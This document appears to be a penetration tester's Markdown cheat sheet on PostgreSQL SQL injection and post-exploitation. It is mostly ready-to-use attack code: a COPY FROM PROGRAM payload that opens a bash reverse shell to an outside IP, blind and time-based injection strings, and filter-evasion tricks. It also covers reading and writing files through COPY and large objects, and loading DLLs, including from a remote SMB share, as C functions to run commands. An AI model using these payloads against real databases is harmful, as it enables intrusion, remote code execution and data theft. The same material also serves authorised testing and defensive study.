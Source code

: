## PostgreSQL
> Note Stacked Queries may break application logic during SQLi;
> In PostgreSQL a semicolon can delimeter command and thus can execute totally new commands in SQLi

 ### Executing Queries against PostgreSQL DB
 #### Using pgAdmin GUI tool
To directly execute SQL Queries directly against the database, Use the `pgAdmin` tool. This is a front end for PostgreSQL
#### From Cmd
```batch
psql.exe -U postgres -p 15432
```

#### From Bash
```bash
sudo -i -u postgres
psql answers
```

### Execute System commands
```SQL
DROP TABLE IF EXISTS output;

create table output (line text);

copy output from program 'bash -c "bash -i >& /dev/tcp/192.168.119.125/9001 0>&1"';
```

### Examine Table
```sql
\d pg_largeobject
```

### Confirm SQLi Injection
```sql
;select pg_sleep(10);
```

### Blind SQLi 
```sql
# Boolean statment, where %s is ur nested query
2 LIMIT (CASE WHEN (%s) THEN 1 ELSE 2 END)

# Where first %d is charchter index in string and second %d is guess value
ASCII(SUBSTR((SELECT password FROM users WHERE user_id=1),%d,1))<%d
ASCII(SUBSTR((SELECT password FROM users WHERE user_id=1),%d,1))>%d
```

### Filter Evasion
#### base64
```sql
# From base64
select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');
```

#### Charchter Code point
```sql
# Charchter Code point
# Character concatenation only works for basic queries such as SELECT,  INSERT, DELETE, etc. It does not work for all SQL statements.
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);

CREATE TABLE EXAMPLETABLE (sometext text); INSERT INTO EXAMPLETABLE(sometext) VALUES (CHR(87)||CHR(66)||CHR(97)||CHR(86));
SELECT * from EXAMPLETABLE;
```

#### Avoiding Quotes
Essentially, two dollar characters (`$$`) can be used as a quote (`'`) substitute by themselves, or a single one (`$`) can indicate the beginning of a “tag.” The tag is optional, can contain zero or more characters, and is terminated with a matching dollar (`$`). If used, this tag is then required at the end of the string as well.

```sql
SELECT 'SomeText';
SELECT $$SomeText$$;
SELECT $TAG$SomeText$TAG$;
```

### Write & Read file to/from Disk
```sql
CREATE TEMP TABLE PayloadTable(payload text);INSERT INTO PayloadTable(payload) VALUES ($$WowThisWorks$$);

COPY PayloadTable(payload) TO $$C:\Users\Public\Desktop\thisworks.txt$$

# Writing to file using tables
COPY <table_name> from <file_name>

# Writing to file using nested select query
COPY (select $$payloaddata$$) to <file_name>

# Reading from file 
COPY <table_name> to <file_name>

# Read from file, Full example
CREATE temp table readdatatable (content text);COPY readdatatable from $$C:\Users\Public\Desktop\thisworks.txt$$;SELECT content from readdatatable;DROP table readdatatable;

# Blind Injection, Read from file
CREATE temp table readdatatable (content text);COPY readdatatable from $$C:\Users\Public\Desktop\thisworks.txt$$;select case when(ascii(substr((select content from readdatatable),1,1))=87) then pg_sleep(10) end;--;DROP table readdatatable;
```

### Check If running as DBA
```sql
SELECT current_setting('is_superuser');
```
![Pasted image 20210908125508.png](/Screenshots/Pasted%20image%2020210908125508.png)

### Extensions
#### Load PostgreSQL Extension
```sql
create or replace function system(cstring) returns int as 'c:\windows\system32\kernel32.dll','WinExec' language c strict;
 
create or replace function test(text, integer) returns void as $$c:\\test.dll$$,$$test$$ LANGUAGE C STRICT; 

# supports the use of remote smb shares
create or replace function test(text, integer) returns void as $$\\192.168.1.1\smb\test.dll$$,$$test$$ LANGUAGE C STRICT; 
```

Need to make sure the appropriate Postgres structure is defined. Otherwise, this error will show up
![Pasted image 20210908171828.png](/Screenshots/Pasted%20image%2020210908171828.png)

#### Check if function exists
```sql
\df test
```

#### Run function from Extension
```sql
create or replace function test(text, integer) returns void as $$c:\\test.dll$$,$$myfunctioninDLL$$ LANGUAGE C STRICT;
```

> Note that any newly launched calc.exe instance will be running as a service in the background and won't show it's gui if the postgresql is running as `System`

#### Unload extension
```batch
# 1. Stop the Service
net stop "Applications Manager"

# 2. Delete the DLL
del c:\test.dll

# 3. Start the service
net start "Applications Manager"
```

```sql
# 4. Drop the function
DROP FUNCTION test(text, integer);
```

### Postgresql Large Object
Large objects can be exported back to the file system as an identical copy of the original imported file. 

#### Create Large Object
```sql
select lo_import('c:\\windows\win.ini')

# Set loid field when importing
select lo_import('C:\\Windows\\win.ini', 1337);
```

#### List Large Objects
```sql
\lo_list

select loid, pageno from pg_largeobject;
```

#### View Data in Large Object
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```

#### Update Large Object - Write to large object directly
```sql
update pg_largeobject set data=decode('77303074', 'hex') where loid=1337 and pageno=0; 
```

#### Export large object to disk
```sql
select lo_export(1337, 'C:\\new_win.ini');
```

#### Delete large object
```sql
\lo_unlink 1337
```


### References
[Command Execution in psql 9.3 < Latest ](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)